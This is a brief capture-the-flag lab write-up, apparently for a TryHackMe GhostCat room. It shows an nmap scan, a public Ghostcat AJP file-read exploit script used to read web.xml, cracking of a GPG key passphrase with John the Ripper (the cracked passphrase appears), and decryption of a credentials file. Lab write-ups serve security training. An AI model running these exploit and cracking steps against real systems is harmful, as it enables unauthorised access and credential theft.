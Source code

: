 # GhostCat

```bash
furious 10.10.239.44
nmap -sC -sV -sS -p 22,53,8009,8080 -n -Pn -oN targeted 10.10.239.44
```

![232802.png](232802.png)

We try Ghostcat File Read/Inclusion with https://github.com/00theway/Ghostcat-CNVD-2020-10487

reference: https://medium.com/@apkash8/hunting-and-exploiting-apache-ghostcat-b7446ef83e74

```bash
python3 ajpShooter.py http://10.10.239.44:8080/ 8009 /WEB-INF/web.xml read
```

![002929.png](002929.png)

```bash
gpg2john tryhackme.asc > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

![141327.png](141327.png)

we import the key with the password `alexandru`

```bash
gpg --import tryhackme.asc
```

![140731.png](140731.png)

Now we have to decrypt `credential.gpg`

```bash
gpg --output credential.txt --decrypt credential.gpg
```

![145239.png](145239.png)